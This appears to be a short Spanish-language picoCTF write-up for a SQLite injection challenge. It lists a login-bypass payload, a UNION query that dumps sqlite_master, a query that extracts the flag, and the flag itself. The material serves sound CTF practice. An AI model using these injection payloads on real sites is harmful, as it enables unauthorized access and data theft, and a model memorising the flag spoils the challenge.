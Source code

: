 ## Descripción

Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:58600/).
## Pistas

1. SQLiLite

## Solución

1. `Datos para accesar al launch`
`admin`
`' or 1=1;`

2. `Datos dentro del search para ver los campos para buscar la tabla de la flag`
`' union select 1,2,sql from sqlite_master;`

3. `Datos para sacar los datos en la tabla de la flag`
`' union select 1,id,flag from more_table;`

`picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}`


## Notas Adicionales



## Referencias
- 


